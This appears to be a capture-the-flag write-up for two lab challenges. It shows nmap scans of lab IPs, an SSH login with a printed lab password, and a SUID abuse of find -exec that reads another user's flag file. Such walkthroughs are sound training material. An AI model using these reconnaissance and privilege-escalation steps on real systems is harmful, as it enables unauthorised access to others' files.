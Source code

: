 ![image](https://user-images.githubusercontent.com/90561566/205009667-3d436e2e-5fa5-4c2c-89bc-45bfce1b5235.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/205010278-227fc891-3a99-4c5e-b7db-5001ad201367.png)

## Day 7: Skilling Up

scan the target

```
nmap -A -T4 10.10.195.1
```

![image](https://user-images.githubusercontent.com/90561566/205088147-baba06d9-b1fb-4125-9f9d-da2ffb318255.png)

there are 3 open ports are 22, 111, 999

os name is `linux`

![image](https://user-images.githubusercontent.com/90561566/205089369-6bed4887-50a1-425a-91f2-15e567676aaf.png)

check the web page at port 999

![image](https://user-images.githubusercontent.com/90561566/205089220-57f0cc24-b7a9-40fa-a88b-eda29f304b1d.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/205089713-92693498-0268-406b-a7a3-640cece93c26.png)

## Day 8: SUID Shenanigans

scan the target

```
nmap -p- -T4 10.10.192.12
```

it took too much time to find, but the hint suggest us ssh is running on port 65534

![image](https://user-images.githubusercontent.com/90561566/209459903-53089b6c-9f7d-475d-a595-3160ca16da7e.png)

```
ssh holly@10.10.192.12 -p65534
tuD@4vt0G*TU
```

```
ls -l /usr/bin/find
```

find command is actually owned by Igor and he has SUID permission

![image](https://user-images.githubusercontent.com/90561566/209460158-0b3db96e-f9e0-4c9a-955b-0bb4b5a58573.png)

```
find /home/igor/flag1.txt -exec cat /home/igor/flag1.txt \;
```
